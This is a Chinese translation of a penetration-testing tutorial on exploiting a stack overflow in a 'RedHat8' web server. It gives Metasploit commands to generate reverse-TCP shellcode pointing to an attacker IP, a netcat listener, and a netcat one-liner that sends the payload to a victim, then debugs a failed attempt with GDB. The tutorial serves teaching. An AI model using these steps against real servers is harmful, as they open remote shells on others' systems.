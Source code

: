 > 原文链接: https://www.anquanke.com//post/id/84729 


# 【技术分享】教你如何拿到RedHat8服务器的Shell


                                阅读量   
                                **92079**
                            
                        |
                        
                                                                                    



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://woumn.wordpress.com/2016/09/24/smashing-the-stack-into-a-reverse-shell/](https://woumn.wordpress.com/2016/09/24/smashing-the-stack-into-a-reverse-shell/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t010f182b253914f128.png)](https://p1.ssl.qhimg.com/t010f182b253914f128.png)

**写在前面的话**

我撰写这篇文章目的就是为了教会大家如何去利用RedHat8 Web服务器中存在的一种新型堆栈溢出漏洞来实现攻击。在这篇文章中，我将会列出漏洞利用过程中所有需要用到的工具、实用命令以及控制指令。当然了，我不仅会告诉大家如何利用这个漏洞，我还会跟大家解释漏洞利用背后的实现原理。

在此，我假设各位读者对编程和计算机体系架构已经有基本的了解了。但是也请各位不用担心，我在文章中仍然会对这部分内容进行介绍。

**<br>**

**工具的使用**

Kali Linux

我强烈建议各位在开始动手操作之前安装好Kali Linux，因为这款渗透测试神器包含有我们所要使用的所有工具。

Metasploit

在操作过程中，我们需要使用Metasploit来生成我们的反向tcp shell代码，然后再将其嵌入至我的攻击payload中。我所使用的shell代码为linux/x86/shell_reverse_tcp（外加x86/alpha_mixed编码器）。接下来，我会跟大家解释我为何要使用这两项设置。除此之外，我还需要Metasploit来帮助我确定攻击payload的大小。

Netcat

我需要使用Netcat来发送我们的payload，并且对指定的端口设置一个监听器。我之所以选择Netcat，是因为这款工具不仅使用起来非常简单，而且它还可以处理所有TCP/IP层的重要协议。我们只需要通过一个简单的命令–“nc -l -p [端口号]”就可以开始对特定的端口进行监听了。除此之外，我还需要使用Netcat来向包含漏洞的RedHat8服务器发送GET请求。

GDB调试器

在漏洞利用的过程中，我需要使用GDB调试器（命令为“gdb -core [文件名]”）来查看我们从目标RedHat8服务器中导出的本地文件副本。其他需要使用的命令如下：



```
info reg         显示寄存器中所有的信息
x/64 REGISTER(+/- bytes)        显示寄存器地址中的内存数据
```



**如何运行我们的漏洞利用代码**

假设文件“exploit_gen.py”已经存在于我们的攻击设备中了。现在，我们将要使用Netcat来监听8118端口，然后通过GET请求和端口“SERVERPORTNUM”来将我们生成的攻击payload发送给目标服务器。

1. 打开两个终端窗口；

2. 在终端窗口A中运行下列命令，开启对端口8118的监听：



```
nc -l 8118 (on Linux)
```

3. 在终端窗口B中运行下列命令：



```
EGG=python exploit_gen.py
echo GET /$EGG HTTP/1.0|nc VICTIM SERVERPORTNUM
```

**<br>**

**生成Shell代码**

在这一章节中，我会告诉大家如何生成我们的shell代码。我之所以要把这部分内容放在后面，是因为我感觉这一步骤实在是太无聊了。

为了生成Shell代码，我们还是得使用Metasploit。与之前一样，首先打开一个终端窗口，然后输入命令“msfconsole”，此时我们将会进入Metasploit的控制台。虽然网上有很多介绍Metasploit的文章，但是在这篇文章中我只会介绍现在所要使用的东西。简而言之，我们只需要运行下列命令，就可以生成我们的Shell代码了。



```
use linux/x86/shell_reverse_tcp
set LHOST AttackerIP (目标主机的IP地址)
set LPORT 8118
generate -t python -e x86/alpha_mixed
```

首先，我们要告诉Metasploit，我们要使用的exploit是shell_reverse_tcp。接下来，我们要设置需要进行攻击的目标主机IP地址，然后再设置需要监听的端口。请注意，不要使用默认的4444端口，因为可能已经有人正在监听这个端口了，所以我们在这里使用的是8118端口。最后，为了让我们所生成的Shell代码能够兼容Python，我们就要使用一个名为“alpha_mixed”的编码机制了，它可以帮助我们移除掉某些目标服务器无法识别的特殊字符。接下来，Metasploit会输出相应的Python代码，你可以直接将代码复制粘贴进我们的“exploit_gen.py”文件中。

“shell_reverse_tcp”中的代码是使用机器语言编写的，这也就意味着它的代码基本上都是操作码。这些操作码可以让计算机通过我们指定的IP地址和端口号来建立一个TCP/IP链接，然后帮助我们向目标主机中发送shell代码。采用机器语言编写的代码对我们来说是非常重要的，因为这样一来，我们在生成攻击代码时，就可以不用根据目标主机的情况来考虑我们所需使用的语言了。

**<br>**

**将****所有生成的东西整合在一起**

既然我们已经制作好了“exploit_gen.py”文件，那么我们就可以像往常一样将该文件地址分配给“$EGG”变量了。那么接下来，打开两个单独的终端窗口，一个用来向目标Web服务器发送“$EGG”变量的内容，另一个用来控制Netcat去监听TCP shell的返回信息。这些操作全部都可以在Kali Linux中完成：

终端A：

```
nc -l 8118 (这里的端口号需要与我们用来生成shell代码的端口相同)
```

终端B：



```
EGG=python exploit_gen.py
echo GET /$EGG HTTP/1.0|nc VictimIP 8888
```

如果一切顺利的话，你应该可以在运行了Netcat的那个终端中看到shell提示符了。话虽如此，但是事情总是不会进展得如此顺利的。在我的实验过程中，我从未在监听端口的过程中拿到过反向shell。如果你的情况与我一样，请你振作起来，因为我接下来会告诉你为什么会出现这种情况。

**<br>**

**深入分析**

在运行完这些命令，并将“$EGG”变量的内容发送至目标RedHat8服务器之后，进入目标主机然后检查它的核心文件，你将会得到如下图所示的信息：

[![](https://p0.ssl.qhimg.com/t0113daf2514a32ef21.png)](https://p0.ssl.qhimg.com/t0113daf2514a32ef21.png)

那么你可能会问了，“Segmentation fault”是什么意思呢？就我的经验来看，当某个程序尝试访问其沙箱之外的内存地址时，系统就会抛出这个错误。这种情况之所以会发生，更加确切地说，是因为当这个程序需要访问EIP寄存器中的数据时，寄存器地址指向的是一个无效指令。好的，那么接下来的问题是，地址0xbffffa0f到底有什么？结果我发现，这个地址指向的竟然是我shell代码的中间部分！实际上，我们可以通过“info reg”命令来验证EIP寄存器中的信息，这个地址的确指向的是我的shell代码。

[![](https://p4.ssl.qhimg.com/t01dca58a0be49247f0.png)](https://p4.ssl.qhimg.com/t01dca58a0be49247f0.png)

那么ESP寄存器中保存着什么呢？如下图所示：

[![](https://p1.ssl.qhimg.com/t0188b7b3301a534661.png)](https://p1.ssl.qhimg.com/t0188b7b3301a534661.png)

**<br>**

**这意味着什么？**

其实我自己也不是很确定。但是在进行了一番分析之后，我可以确定的是，我的shell代码已经被执行了，但是可能在初始化TCP/IP链接的过程中遇到了一些小问题。我之所以可以确定shell代码得到了完整的执行，是因为ESP寄存器中的数据发生了改变，这也就意味着堆栈信息不知为何被返回了。我曾尝试过去验证这一想法，但是这确实很难。我只知道防火墙是无法阻止两台虚拟机之间的通信的，因为两台虚拟机之间是可以相互Ping通的。但是为什么防火墙会阻止一个TCP/IP shell呢？

但是我在思考过后发现，这样想其实是完全错误的！于是我打开了我的笔记本电脑，然后尝试通过一台远程设备（一台Ubuntu 16.04主机）来重新对一台远程RedHat8服务器实施攻击。这就需要我们使用新的攻击主机IP地址来重新生成shell代码，然后将其复制粘贴进“exploit_gen.py”文件中。但是这里还存在一个问题—返回地址无法对齐。如果你还记得的话，我们可以导出“$EGG”变量的十六进制数据（使用命令“echo $EGG | hexdump –C”）来进行验证：

[![](https://p4.ssl.qhimg.com/t011e478da42972f7e4.png)](https://p4.ssl.qhimg.com/t011e478da42972f7e4.png)

虽然这只是一个小小的变化，但是这一次我们成功地拿到了shell！为什么会这样呢？有可能是因为虚拟机的设置有问题吧？说实话，我自己也不是很确定。如果有哪位同学知道的话，欢迎与我联系！

[![](https://p0.ssl.qhimg.com/t010207b60036b5a675.png)](https://p0.ssl.qhimg.com/t010207b60036b5a675.png)

**<br>**

**结束语**

我希望这篇文章能够给各位渗透测试人员提供一种新的漏洞利用思路。在我们遇到问题时，我们不仅要尝试去解决问题，还要能够去思考问题背后的原因。感谢大家的阅读，希望各位能够喜欢！在下一篇文章中，我会给大家讲解如何绕过Windows的ASLR来拿到目标主机的shell，感兴趣的同学请锁定安全客！


